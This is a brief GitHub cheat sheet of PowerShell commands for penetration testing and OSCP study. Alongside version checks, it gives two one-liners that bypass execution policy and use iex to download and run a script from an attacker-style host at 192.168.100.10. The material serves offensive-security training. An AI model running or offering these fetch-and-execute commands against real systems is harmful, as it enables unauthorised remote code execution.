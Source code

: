 # Powershell-Cheatsheet
Hand list of Powershell commands frequently used during penetration tests / OSCP

## Check the Powershell Version

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

## Test if you can run PowerShell Version 2

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

## Execute Remote Powershell from windows command prompt

```cmd
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))" && SET "PATH=%PATH%;%ALLUSERSPROFILE%\code\"
```

## Execute Remote Powershell from Powershell prompt

```Powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.10/code.ps1'))
```

